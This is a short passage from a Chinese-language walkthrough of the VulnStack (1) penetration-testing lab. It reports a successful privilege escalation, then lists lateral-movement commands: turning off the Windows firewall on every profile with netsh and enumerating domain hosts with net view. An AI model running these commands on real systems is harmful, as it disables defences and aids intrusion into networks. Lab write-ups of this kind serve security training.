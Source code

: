 ![img](VulnStack(1)/images/image-29.png)

成功提权！
![img](VulnStack(1)/images/image-30.png)

## 横向移动

查看防火墙、关闭防火墙
shell netsh firewall show state
shell netsh advfirewall set allprofiles state off

获取域内目标
多执行几次
net view

然后在目标列表就能看到